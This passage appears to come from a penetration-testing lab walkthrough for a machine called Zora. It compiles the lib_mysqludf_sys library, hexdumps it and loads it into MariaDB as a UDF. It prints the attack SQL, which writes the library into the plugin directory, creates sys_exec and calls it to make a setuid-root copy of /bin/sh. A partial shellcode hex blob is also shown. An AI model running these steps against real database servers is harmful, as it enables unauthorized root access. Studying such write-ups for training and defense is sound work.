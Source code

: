 Specifically we need to adjust the include directory path for the gcc command since we have a MariaDB installation on our Kali system and not a MySQL one. The changes to the Makefile are shown in Listing 60.

```bash
kali@kali:~/lib_mysqludf_sys$ cat Makefile
LIBDIR=/usr/lib                                                                                             
install:                                                                                                
        gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so 
        
kali@kali:~/lib_mysqludf_sys$ make
gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so
```

The -Wall flag enables all of gcc's warning messages and -I includes the directory of header files. The list included in the command found in Listing 60 are common locations for header files for MariaDB. The -shared flag tells gcc this is a shared library and to generate a shared object file. Finally, -o tells gcc where to output the file.

Recalling the SQL commands from the UDF exploit, to transfer the shared library to the target database server, we will need the file as a hexdump.

```bash
select @@plugin_dir
select binary 0xshellcode into dumpfile @@plugin_dir;
create function sys_exec returns int soname udf_filename;
select * from mysql.func where name='sys_exec' \G
select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
```

To do so we can use the following command:

```bash
kali@kali:~/lib_mysqludf_sys$ xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_sys.so.hex
```

The xxd command is used to make the hexdump and the -p flag outputs a plain hexdump, which makes it easier for further manipulation. We use tr to delete the new line character and then dump the contents of the output to a file named lib_mysqludf_sys.so.hex.

The contents of the lib_mysqludf_sys.so.hex file is what we will use for shellcode.

We have everything that we need to attempt to exploit Zora. Now we just need to put it together. Before we begin running the malicious SQL commands, we will create a variable in MariaDB for the shellcode. The contents of this variable are obtained from the lib_mysqludf_sys.so.hex file.

```bash
MariaDB [(none)]> set @shell = 0x7f454c4602010100000000000000000003003e000100000000110000000000004000000000000000e03b0000000000000000000040003800090040001c001b000100000004000000000000...00000000000000000000;
```

Note the addition of "0x" to the beginning of the shellcode and the lack of single or double quotes. This is necessary for MariaDB to read the text as binary. Next, per the exploit instructions, we will confirm the location of the plugin directory.
